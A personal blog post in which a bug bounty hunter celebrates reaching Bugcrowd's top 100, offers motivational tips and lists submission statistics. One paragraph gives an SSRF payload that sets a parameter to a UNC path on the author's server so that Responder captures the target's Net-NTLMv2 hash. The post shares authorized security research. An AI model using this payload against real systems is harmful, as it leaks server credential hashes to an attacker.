 ```yaml
---
layout: single
title: Bug Hunting Thoughts & Statistics
date: 2021-02-15
classes: wide
header:
  teaser: /assets/images/BB.png
tags:
  - Bug Bounty
  - Penetration Testing
--- 
```


Today marks a huge personal milestone in my bug bounty hunting career. I have achieved an all-time ranking of top 100 on Bugcrowd. This accomplishment comes just 11 months after first creating an account on the Bugcrowd platform. In this blog post I will endeavor to highlight a few things I have learned along the way. This blog post will contain some insights into the types and number of bugs I have submitted as well as any miscellaneous tips I think of while writing this.  

## Hack for Fun
The first point I would like to emphasize is the fun and learning involved in hacking. In my opinion, going into bug hunting with the sole desire to make money is unadvisable. I first started bug hunting after finishing eLearn Security’s web application pentester certification and decided I wanted to try hacking on real websites. I’ve learned so much more doing bug hunting than I have in any certification (and as an added bonus I get paid to learn this way rather than paying to learn)!  

## Be Creative
The next point I want to touch on is creativity. As I have delved deeper into the bug bounty community, I see an evident issue with creativity. What I mean by this is that so many aspiring hunters are focused on finding their first bug that they constantly flock to the newest tool or run the newest “one-liner” they see on Twitter. This is the wrong approach, instead try thinking outside of the box, fuzz parameters differently, try to break things! Once you make the website act funny you can dig deeper and try to invoke a security issue.   

An example of this I’ve encountered is SMB SSRF. Everyone knows the basic premise of SMB is to induce the web server to make an outbound HTTP request. I was looking at a program with a very tempting `uriPath=` parameter but was unable to achieve an HTTP request despite trying numerous bypasses. Out of curiosity I tried `uriPath=\\c2.mk\share` and immediate received the Net-NTLMv2 hash from the ASPX server on my VPS running Responder. This is not something I have commonly read about, but I proceeded to find it in six other parameters on this program. They were very clearly blocking outbound HTTP traffic but allowed outbound SMB traffic.  


## Dedication
Bug bounty is no different than anything else in life. You have to work hard if you want to see progress and achieve positive results. There is no such thing as a free lunch, you will have to learn and understand web application attacks and exploits, then you will have to fight and compete with thousands of other bug hunters just get your first accepted bug. There is no substitute for hard work and hours spent practicing. Sit down and start today if you want to progress tomorrow.  


<br>
I may add future ramblings here in the future ¯\_(ツ)_/¯ 


## Statistic
Alright now for the fun data and statistics. The data and screenshots below are what is required to reach Top 100 on Bugcrowd (at the time of writing this article):
-	Bugs Submitted: 313
-	Bugs Accepted: 131
-	Duplicate Bugs: 89
-	Rejected Bugs: 86 (this is largely due to how Bugcrowd handles NGPT/ CPT engagements)
-	Pending Bugs: 7


![](/assets/images/bugbounty/1.png)

Figure 1: Volume of Submitted Bugs Over Time  

![](/assets/images/bugbounty/2.png)

Figure 2: Severity of Submitted Bugs Over Time  

![](/assets/images/bugbounty/3.png)

Figure 3: Technical Severity Breakdown  

![](/assets/images/bugbounty/4.png)

Figure 4: Number of Submitted Bugs per Category  

![](/assets/images/bugbounty/5.png)

Figure 5: Points, Rank, Accuracy  



![Hits](https://hitcounter.pythonanywhere.com/count/tag.svg?url=https%3A%2F%2Fcinzinga.com%2FBug-Bounty-top-100%2F)